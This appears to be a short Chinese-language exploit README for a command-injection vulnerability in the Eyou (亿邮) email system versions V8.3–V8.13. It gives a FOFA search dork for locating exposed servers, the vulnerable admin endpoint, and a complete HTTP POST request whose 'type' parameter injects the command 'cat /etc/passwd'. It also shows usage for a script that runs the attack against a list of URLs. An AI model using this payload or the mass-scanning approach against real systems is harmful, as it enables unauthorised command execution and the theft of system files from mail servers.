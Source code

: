 # 影响范围：
亿邮电子邮件系统V8.3-V8.13
# FOFa dork：
body="亿邮电子邮件系统"
# 漏洞复现：
登录页面:  
![image](images/login.png)   
漏洞地址：/webadm/?q=moni_detail.do&action=gragh  
post包如下：  
```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 192.168.1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0

type='|cat /etc/passwd||'
```
![image](images/post.png)   
脚本使用方法：  
python3 Eyou.py [-f  Url.txt]




